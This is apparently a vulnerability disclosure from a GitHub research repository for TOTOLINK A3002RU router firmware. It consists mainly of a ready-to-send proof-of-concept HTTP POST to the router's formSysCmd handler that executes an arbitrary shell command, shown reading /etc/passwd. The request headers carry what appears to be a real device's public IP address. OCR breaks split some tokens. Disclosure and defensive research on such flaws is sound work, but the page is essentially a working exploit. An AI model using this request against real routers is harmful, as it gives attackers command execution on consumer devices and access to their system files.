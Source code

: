 ## TOTOLINK-A3002RU-RCE

Firmware version: V2.0.0-B20190902.1958

### description
TOTOLINK-A3002RU has a post-auth insecure permission vulnerability that can lead to the execution of any cmd


POC:

```
POST /boafrm/formSysCmd HTTP/1.1
Host: IP
Content-Length: 101
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://113.53.30.58:8443
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/110.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.
8,application/signed-exchange;v=b3;q=0.7
Referer: http://113.53.30.58:8443/syscmd.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

submit-url=%2Fsyscmd.htm&sysCmdselect=5&sysCmdselects=0&save_apply=Run+Command&sysCmd=c
at+/etc/passwd
```

video:

https://github.com/xieqiang11/security_research/assets/149745918/920fa305-e48d-42d2-bd02-61a4ea49bb43
